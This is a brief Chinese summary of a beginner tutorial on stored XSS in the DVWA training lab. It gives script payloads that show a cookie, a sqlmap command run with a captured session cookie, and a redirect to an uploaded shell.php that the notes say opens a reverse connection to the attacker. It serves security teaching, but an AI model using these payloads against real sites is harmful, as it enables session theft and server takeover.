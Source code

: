 ## DVWA中存储的XSS开发（初学者指南）[^1]

`<script>alert(XSS)</script>`

`<script>alert(document.cookie)</script>`

### **使用XSS进行SQL注入**

`sqlmap -u "//192.168.1.8/dvwa/vulnerbilities/sqli/?id=1&submit=submit" --cookie="security=low; PHPSESSID=r12pk67cuq3s7eo4iktb88sud2" –dbs --batch`

### **使用XSS获得Shell访问**

`<script>window.location="//192.168.1.8/dvwa/hackable/upload/shell.php"</script>` [^2]

[原文](https://www.hackingarticles.in/stored-xss-exploitation-dvwa-beginner-guide/)

---

[^1]: 跨站点脚本（XSS）攻击是一种注入类型，其中恶意脚本被注入可信网站。当攻击者使用Web应用程序将恶意代码（通常以浏览器端脚本的形式）发送给不同的最终用户时，就会发生XSS攻击。最终用户的浏览器无法知道该脚本不应该被信任，并将执行该脚本。因为它认为脚本来自可靠来源，所以恶意脚本可以访问任何cookie，会话令牌或浏览器保留并与该站点一起使用的其他敏感信息。**存储型XSS**通常在用户输入存储在目标服务器上时发生，例如在数据库中，在消息论坛，访问者日志，注释字段等中。然后受害者能够从Web应用程序检索存储的数据而不是数据在浏览器中可以安全呈现。随着HTML5和其他浏览器技术的出现，我们可以设想攻击有效负载永久存储在受害者的浏览器中，例如HTML5数据库，并且永远不会被发送到服务器。
[^2]: 您可以看到我已经在脚本中注入了上传文件的路径，该路径将保存在服务器中。当用户点击它以阅读消息时，他将执行我们的shell.php文件，该文件在攻击者机器上提供反向连接。